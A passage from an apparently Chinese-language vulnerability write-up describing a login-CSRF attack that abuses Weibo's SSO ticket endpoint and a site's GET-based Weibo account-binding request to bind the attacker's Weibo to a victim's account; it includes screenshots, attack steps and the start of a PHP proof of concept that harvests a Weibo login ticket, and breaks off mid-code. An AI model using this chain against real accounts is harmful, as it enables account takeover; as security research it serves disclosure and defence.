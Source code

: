 ![0x02.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x02.png)

## 验证猜想

### 流程

个人中心有这个第三方的账号绑定：

![0x03.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x03.png)

在这里QQ、github、微博、微信四个第三方账号绑定中我有了微博的`CSRF之你登陆我的账号`这个缺陷，所以这里测试下微博的第三方账号绑定。

页面有微博账号绑定的跳转链接：

![0x04](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x04.png)

通过这个链接进入了绑定的界面（未登陆微博）：

![0x05.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x05.png)

通过这个链接进入了绑定的界面（已登陆微博）：

![0x06.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x06.png)

当我授权绑定之后，微博发生了变化，管理中心->我的应用->我的应用：

![0x07.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x07.png)

会多出这个网站在里面，那么这个变化是对我们有利的，还是？

这里我解绑了微博，然后再使用这个已经授权了的微博进行绑定，发现居然不用点击授权了，直接就绑定了。

很显然，在这里这个`便利`解决了一些攻击的利用难度。

### 实现

我们现在具备的几个条件：

1. 微博的`CSRF之你登陆我的账号`缺陷：

登陆你的微博，然后访问http://login.sina.com.cn/sso/crossdomain.php?action=login，会返回这样的内容给你：

![0x08.png](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x08.png)

其中arrURL对应的链接就是凭证登陆的~

2. 你的微博已经授权过了要存在缺陷的网站(这里方便直接跳转而不用再去点击按钮！所以你可以先用自己的微博绑定下存在缺陷的网站的账号，然后解绑就行了~)
3. 绑定请求存在csrf的缺陷（这里因为是GET请求类型 `/oauth/weibo/redirect`，而一般不会对GET请求类型进行CSRF的限制~~）

#### 场景1.攻击步骤：

对方点开凭证链接登陆了你的微博，对方点开绑定微博的链接，绑定了你的微博，完成攻击。

考虑到凭证时效性的问题，在这里写了一个动态的PoC：

```php+HTML
<?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket={$res[1]}&ssosavestate=1556602678";
```